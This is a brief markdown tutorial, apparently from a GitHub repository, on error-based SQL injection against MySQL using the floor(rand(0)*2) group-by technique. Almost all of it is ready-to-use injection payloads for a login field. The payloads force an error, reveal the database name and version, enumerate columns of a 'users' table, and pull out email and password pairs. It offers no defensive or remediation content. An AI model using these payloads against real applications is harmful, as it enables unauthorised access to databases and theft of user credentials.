 # Advanced ++ Exploitation 

##Explanation of the Attack

This method will be used when there is only error message is displayed and no other information is not visible 

![error](error.PNG)


Creating error with critical information

```
select (rand(0)*2)x from comment group by x

select floor(rand(0)*2)x from comment group by x;

select count(*), floor(rand(0)*2)x from comment group by x;

select count(*),concat(version(),floor(rand(0)*2))x from comment group by x;
```


###1. Identifying the database
```
admin' and (select 1 from a)-- Identifying the database

```


###2. Identifying versions etc..
```
admin' and (select 1 from(select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x) a)--  - Your own error message 

admin' and (select 1 from(select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x) a)--  - Your own error message 
```


###3.Enumeration of the information using 
```
admin' AND (select 1 from (select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='users' LIMIT 1,1),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)b) -- 

admin' AND (select 1 from (select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='users' LIMIT 2,1),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)b) -- 

Username and Password ++++++++++++++++++++++++++++++++++++++
admin' AND (select 1 from (select count(*),concat(0x3a,( select concat(email,0x3a,password) from users limit 0,1),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)b) -- 
```
